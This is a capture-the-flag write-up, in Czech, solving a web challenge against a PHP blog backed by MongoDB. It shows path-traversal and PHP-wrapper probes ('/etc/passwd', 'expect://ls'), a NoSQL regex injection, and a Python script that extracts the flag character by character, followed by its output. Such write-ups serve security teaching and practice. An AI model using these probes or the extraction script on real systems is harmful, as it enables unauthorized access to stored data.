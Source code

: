 # Blogging Web Site

## Zadání

```
Hi Expert,

some kind of blogging application remains unfinished on http://78.128.216.18:65180, but it can contain some information about end of the civilization. Get the content of all entries.

Good Luck

Hint: Try to get information about used technologies.
```

## Řešení

* Blog obsahuje odkazy na 2 stránky - First entry a TODO
* Stránka se nastavuje pomocí GET parametru `title` (`http://78.128.216.18:65180/view?title=TODO`)
* Z HTTP hlaviček víme, že blog jede v PHP (`X-Powered-By: PHP/7.3.29-1~deb10u1`)
* Vypadá to ale, že se nejedná o LFI - nelze vypsat soubor passwd (`http://78.128.216.18:65180/view?title=../../../../../../../etc/passwd`)
* Nelze použít ani PHP wrappers (například `view?title=expect://ls`), viz  https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
* Parametr `title` není ani náchýlný k SQL injection
* Stránka TODO obsahuje další zajímavou informaci:

```
TODO

add login to protect private posts
add post editor
add cron to backup mongo
```
* Mohlo by se jednat o NoSQL Mongo injection (viz https://book.hacktricks.xyz/pentesting-web/nosql-injection)
* http://78.128.216.18:65180/view?title[$regex]=FLAG potvrzuje, že jde o Mongo injection a cílem tedy bude zjistit jméno souboru vlajky:

```
Notice: Array to string conversion in /opt/ctfb1/web/vendor/twig/twig/src/Environment.php(358) : eval()'d code on line 51
Array
This is the flag post.
```

## Program pro výpis vlajky
[solve.py](solve.py)
```python
import requests
import string

flag = 'FLAG{'
while '}' not in flag:
    for c in string.ascii_lowercase + string.ascii_uppercase + '_-{}' + string.digits:
        r = requests.get('http://78.128.216.18:65180/view?title[$regex]=%s' % (flag + c))
        if 'This is the flag post' in r.text:
            flag += c
            print(flag)

```

## Výstup
```
FLAG{L
FLAG{LW
FLAG{LWb
FLAG{LWbF
FLAG{LWbF-
FLAG{LWbF-Q
FLAG{LWbF-Qz
FLAG{LWbF-QzF
FLAG{LWbF-QzFv
FLAG{LWbF-QzFv-
FLAG{LWbF-QzFv-x
FLAG{LWbF-QzFv-xy
FLAG{LWbF-QzFv-xyC
FLAG{LWbF-QzFv-xyCt
FLAG{LWbF-QzFv-xyCt-
FLAG{LWbF-QzFv-xyCt-m
FLAG{LWbF-QzFv-xyCt-mk
FLAG{LWbF-QzFv-xyCt-mkU
FLAG{LWbF-QzFv-xyCt-mkUE
FLAG{LWbF-QzFv-xyCt-mkUE}
```